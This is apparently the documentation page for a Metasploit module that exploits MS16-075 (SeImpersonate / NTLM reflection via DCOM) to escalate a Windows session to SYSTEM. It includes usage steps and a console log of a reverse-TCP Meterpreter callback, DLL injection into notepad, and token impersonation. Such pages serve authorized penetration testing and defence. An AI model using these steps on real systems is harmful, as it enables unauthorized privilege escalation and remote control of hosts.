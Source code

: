 ## Introduction

  This module will abuse the SeImperonsate privilege commonly found in
services due to the requirement to impersonate a client upon
authentication. As such it is possible to impersonate the SYSTEM account
and relay its NTLM hash to RPC via DCOM. The DLL will perform a MiTM
attack at which intercepts the hash and relay responses from RPC to be
able to establish a handle to a new SYSTEM token. Some caveats : Set
your target option to match the architecture of your Meterpreter
session, else it will inject the wrong architecture DLL into the process
of a seperate architecture. Additionally, after you have established a
session, you must use incognito to imperonsate the SYSTEM Token.

## Usage

  You'll first need to obtain a session on the target system.
  Next, once the module is loaded, one simply needs to set the
```payload``` and ```session``` options, in addition to architecture.

  Your user at which you are trying to exploit must have `SeImpersonate`
privileges.

  The module has a hardcoded timeout of 20 seconds, as the attack may
not work immediately and take a few seconds to start. Also, check to
make sure port 6666 is inherently not in use else the exploit will not
run properly

## Scenarios
```
  Name Current Setting Required Description
   ---- --------------- -------- -----------
   SESSION 48 yes The session to run this module on. Payload options 
(windows/x64/meterpreter/reverse_tcp):
   Name Current Setting Required Description
   ---- --------------- -------- -----------
   EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, 
process, none)
   LHOST ens3 yes The listen address (an interface may be specified)
   LPORT 3312 yes The listen port Exploit target:
   Id Name
   -- ----
   1 Windows x64 msf exploit(windows/local/ms16_075_reflection) > run 
[*] Started reverse TCP handler on -snip-:3312 [*] Launching notepad to 
host the exploit... [+] Process 3564 launched. [*] Reflectively 
injecting the exploit DLL into 3564... [*] Injecting exploit into 
3564... [*] Exploit injected. Injecting payload into 3564... [*] Payload 
injected. Executing exploit... [+] Exploit finished, wait for (hopefully 
privileged) payload execution to complete. [*] Sending stage (206403 
bytes) to -snip- [*] Meterpreter session 49 opened (-snip-:3312 -> 
-snip-:55306) at 2018-08-03 01:54:18 -0400 meterpreter > load incognito 
Loading extension incognito...Success. meterpreter > impersonate_token 
'NT AUTHORITY\SYSTEM' [-] Warning: Not currently running as SYSTEM, not 
all tokens will be available
             Call rev2self if primary process token is SYSTEM [-] No 
delegation token available [+] Successfully impersonated user NT 
AUTHORITY\SYSTEM meterpreter > getsystem -t 1 ...got system via 
technique 1 (Named Pipe Impersonation (In Memory/Admin)). meterpreter > 
```

